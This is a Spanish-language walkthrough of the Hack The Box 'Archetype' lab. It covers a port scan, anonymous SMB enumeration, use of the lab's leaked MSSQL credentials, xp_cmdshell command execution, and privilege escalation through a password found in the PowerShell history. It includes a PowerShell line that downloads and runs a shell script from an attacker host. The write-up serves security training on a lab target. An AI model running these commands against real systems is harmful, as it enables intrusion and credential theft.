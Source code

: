 # Archetype
## Initial Scan
```
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
1433/tcp  open  ms-sql-s    Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-26T19:30:28
|_Not valid after:  2050-08-26T19:30:28
|_ssl-date: 2020-08-26T22:10:34+00:00; +15m20s from scanner time.
5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc       Microsoft Windows RPC
49665/tcp open  msrpc       Microsoft Windows RPC
49666/tcp open  msrpc       Microsoft Windows RPC
49667/tcp open  msrpc       Microsoft Windows RPC
49668/tcp open  msrpc       Microsoft Windows RPC
49669/tcp open  msrpc       Microsoft Windows RPC
```
## Enum
### SMB
#### Shares
```
smbclient -N -L 10.10.10.27

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
Accedamos a backups
```
smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		10328063 blocks of size 4096. 8248883 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1,0 KiloBytes/sec) (average 1,0 KiloBytes/sec)
```
En el archivo tenemoss un par de user:pass
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```
### MSS SQL
Para conevtarnos usaremos el mssqlclient.py de la suite impacket
```
mssqlclient.py 'ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27' -windows-auth
```
Bien con esto tenemos un RCE ya que el server nos permite ejecutar comandos de CMD 
```
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```
## Exploit
Subimos una shell en el servidor mediante el siguiente comando 
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.20/shell.ps1\");"
```
## Privesc

Podemos acceder al historial de PowerShell
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt 
```
Podemos ver las contraseñas hardcodeadas
```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```
Con esto solo nos queda logearnos como administrador, usaremos para ello usaremos la utilidad psexec.py de la suite de impacket
# Analísís de la intrusión
### Sensible data leak
Los shares de SMB incluyen archivos con backups de las contraseñas de un usuario para el servicio de MS SQL, lo que nos permitio acceder al sistema
